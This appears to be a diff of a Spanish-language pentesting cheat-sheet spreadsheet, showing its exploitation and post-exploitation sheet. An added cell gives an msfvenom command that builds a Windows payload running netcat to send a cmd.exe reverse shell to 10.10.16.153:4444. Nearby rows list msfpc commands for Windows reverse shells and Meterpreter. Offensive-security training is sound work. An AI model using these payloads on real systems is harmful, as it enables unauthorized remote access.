

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Explotacion & Post-Explotacion, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no cell formats; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
+++ b/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
-J14: (empty)
+J14: msfvenom -p windows/exec CMD=’c:\xampp\htdocs\gym\upload\nc.exe -e cmd.exe 10.10.16.153 4444′ -b ‘\x00\x0a\x0d’ -f py -v payload
-K14: (empty)
+K14: Nos crea un payload evitando ciertos badchar
-L14: (empty)
+L14: -v especifica una variable custom para ser usada en ciertos formatos de salidas
-J15: MSFPC (Payload Creator)
+J15: (empty)
-J15:L15 merged
-J16: Comando
+J16: (empty)
-K16: Descripcion
+K16: (empty)
-L16: Anotaciones
+L16: (empty)
-J17: msfpc -h
+J17: (empty)
-K17: Para ver la ayuda de como se generan los payload
+K17: (empty)
-J18: msfpc windows 10.10.10.10 CMD reverse verbose
+J18: MSFPC (Payload Creator)
+J18:L18 merged
-K18: Nos genera una shell reversa para windows estilo CMD
+K18: (empty)
-L18: Si se quita el CMD o se pone MSF nos genera un Meterpreter
+L18: (empty)
```
Also changed, not shown: 1 added row, 1 removed row, 198 edited cells and merged cells elsewhere in this sheet, sheet General, sheet Enumeracion & Escaneos, sheet Inyecciones, cell formats.
